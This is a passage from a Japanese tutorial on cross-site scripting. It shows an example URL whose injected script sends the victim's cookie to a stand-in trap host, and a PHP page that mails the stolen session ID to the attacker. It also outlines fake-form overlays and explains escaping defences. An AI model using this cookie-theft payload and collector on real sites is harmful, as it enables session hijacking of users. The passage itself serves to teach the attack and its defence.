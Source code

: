 偽サイトに埋め込むiframe要素のURL例はいかのようになります。
```bash
htttps://www.example.com/001.php?keyword=<script>window.location="http://trap.exapmple.com/901.php?sid='%2Bdocument.cookie;</script>"
```
また埋め込んだURLの情報収集用scriptページ(http://trap.exapmple.com/901.php )の構造例は以下の通りです。
```php
<?php
    mb_language('japanese')
    $sid = $_GET['sid']
    mb_send_mail('送り先メールアドレス', 'タイトル', "セッションID:".$sid, "From: 偽サイトのメールアドレス");
?>
```
これらにより以下の手順にセッションIDが流出します。
1. 罠サイトに利用者がアクセスする
2. 罠サイトのiframe内で脆弱性のある正規サイトが表示される
3. 脆弱性のある正規サイトはXSS攻撃により、クッキー値をクエリ文字列としてつけ、情報収集用scriptページを読み込む
4. 情報収集用scriptページは受け取ったクッキー値をメールで攻撃者に知らせる

まとめると偽サイトにアクセスするとXSSの仕掛けによりセッションIDが悪意のある第3者に知らされます。
悪意のある第3者はこの入手したセッションIDを用いて攻撃が可能です。

##### ●画面の書き換え
XSS脆弱性はログイン機能のないサイトにも影響があります。

具体的には新たなform要素を追加することにより画面を改変します。
* \<form\>により元サイトのform要素を終了させる
* 新しいform要素を開始しstyleで以下を指定(formを絶対座標で画面上に表示、z-indexを大きな値にする、背景色を指定し元のformが見えにくいようにする
* actionパラメータのurlに罠サイトを指定する

これにより正規のホームを上書きし偽のフォームを用意し罠サイトへ誘導します。

#### 反射型XSSと持続型XSS
XSS攻撃には反射型XSSと持続型XSSの2種類があります。

**1. 反射型XSS**
攻撃用のScriptが攻撃対象のサイトとは別のサイト(罠サイトやメールURL)にある場合は反射型です。
このタイプの多くの場合入力値をそのまま表示するページで発生します。
特に入力値の確認用ページです。

**2. 接続型XSS**
攻撃用のScriptが、攻撃対象のDBに保存されている場合は接続型です。
このタイプはWebメールやSNSなどが攻撃対象です。

#### XSS脆弱性の発生原因
XSS脆弱性の発生原因は、**HTML生成の際に特殊文字(メタ文字)を正しく扱っていないこと**です。
メタ文字の特別な意味を打ち消し、文字そのものとして扱うには**エスケープ**する必要があります。

#### XSS脆弱性の基本対策
* **要素内容は「<」と「＆」でエスケープする**
* **属性値は「"」で囲い、「<」「"」「＆」をエスケープする**

これらが最低限のXSS対策である。
各言語やフレームワークでのHTMLのエスケープ処理に使う機能は以下の通りです。
|種類|機能|
|----|----|
|php|htmlspecialchars関数|
|laravel|{{}}で囲む|
|ruby|cgiモジュール|
|rails|<%= ～ %>を使って出力を行う|
|python|bleachライブラリのclean関数|
|Django|自動エスケープ|
